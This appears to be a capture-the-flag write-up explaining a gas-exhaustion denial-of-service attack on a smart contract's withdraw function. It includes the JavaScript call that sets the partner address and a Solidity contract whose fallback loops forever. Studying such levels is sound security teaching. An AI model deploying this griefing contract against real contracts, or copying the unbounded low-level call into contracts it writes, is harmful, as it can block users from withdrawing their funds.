When the level calls withdraw() on the contract, the contract will call the partner and transfer their share of Ether. Because the contract uses the low-level `call` API it will continue executing even if the target reverts for some reason. However, because the contract doesn't specify a maximum amount of gas the target contract can enter an infinite loop, or perform any other gas-intensive operation, and exhaust all available gas. This will result in the the transaction failing and the level will be unable to withdraw their Ether.

First we set the partner to our malicious contract.
```javascript
await contract.setWithdrawPartner("0x629Da0ED85F2c48FFF48A498DDFB15E39DF10813")
```

Our contract looks like this:
```solidity
pragma solidity ^0.4.18;

contract AlwaysReject {
    function () public payable {
        while(true) {}
    }
}
```

Then we submit the level which will try, and fail, to withdraw their Ether, causing us to win.
